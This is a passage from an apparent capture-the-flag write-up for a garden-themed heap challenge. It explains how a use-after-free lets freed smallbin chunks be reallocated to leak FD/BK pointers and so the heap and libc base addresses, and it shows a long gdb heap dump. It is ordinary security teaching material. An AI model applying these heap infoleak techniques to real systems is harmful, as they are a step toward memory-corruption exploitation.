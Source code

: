 {% endhighlight %}

### Leave the garden
All this does is print out "See you next time." and call `exit(0)`.

## Infoleaks
As mentioned before, because flower chunks are not immediately zero'd out when their name chunks are `free()`'d, we can perform double frees and use-after-free's.

We can use our ability to perform UAF's to free 2 smallbin sized chunks and allocate 2 new small bin sized chunks over them to leak their FD and BK pointers. 

This allows us to leak both the heap base and libc base addresses.

Before we reallocate our small chunks into into our free small chunks, this is what the heap looks like.
{% highlight bash %}
gdb-peda$ x/100xg 0x00005643a4b7c050
0x5643a4b7c050: 0x4242424242424242      0x4242424242424242
0x5643a4b7c060: 0x4242424242424242      0x4242424242424242
0x5643a4b7c070: 0x4242424242424242      0x0000000000000031
0x5643a4b7c080: 0x0000000000000001      0x00005643a4b7c0b0
0x5643a4b7c090: 0x4343434343434343      0x4343434343434343
0x5643a4b7c0a0: 0x0043434343434343      0x0000000000000031
0x5643a4b7c0b0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0c0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0d0: 0x4444444444444444      0x0000000000000031
0x5643a4b7c0e0: 0x0000000000000000      0x00005643a4b7c110
0x5643a4b7c0f0: 0x4545454545454545      0x4545454545454545
0x5643a4b7c100: 0x0045454545454545      0x0000000000000091<-- free chunk 1
0x5643a4b7c110: 0x00007fd76f204b78      0x00005643a4b7c220
0x5643a4b7c120: 0x4646464646464646      0x4646464646464646
0x5643a4b7c130: 0x4646464646464646      0x4646464646464646
0x5643a4b7c140: 0x4646464646464646      0x4646464646464646
0x5643a4b7c150: 0x4646464646464646      0x4646464646464646
0x5643a4b7c160: 0x4646464646464646      0x4646464646464646
0x5643a4b7c170: 0x4646464646464646      0x4646464646464646
0x5643a4b7c180: 0x4646464646464646      0x4646464646464646
0x5643a4b7c190: 0x0000000000000090      0x0000000000000030
0x5643a4b7c1a0: 0x0000000000000001      0x00005643a4b7c1d0
0x5643a4b7c1b0: 0x4747474747474747      0x4747474747474747
0x5643a4b7c1c0: 0x0047474747474747      0x0000000000000031
0x5643a4b7c1d0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1e0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1f0: 0x4848484848484848      0x0000000000000031
0x5643a4b7c200: 0x00005643a4b7c0d0      0x00005643a4b7c230
0x5643a4b7c210: 0x4949494949494949      0x4949494949494949
0x5643a4b7c220: 0x0049494949494949      0x0000000000000091 <-- free chunk 2
0x5643a4b7c230: 0x00005643a4b7c100      0x00007fd76f204b78
0x5643a4b7c240: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c250: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c260: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c270: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c280: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c290: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2a0: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2b0: 0x0000000000000090      0x0000000000000030
0x5643a4b7c2c0: 0x0000000000000001      0x00005643a4b7c2f0
0x5643a4b7c2d0: 0x4b4b4b4b4b4b4b4b      0x4b4b4b4b4b4b4b4b
0x5643a4b7c2e0: 0x004b4b4b4b4b4b4b      0x0000000000000031
0x5643a4b7c2f0: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c300: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c310: 0x4c4c4c4c4c4c4c4c      0x000000000001fcf1
0x5643a4b7c320: 0x0000000000000000      0x0000000000000000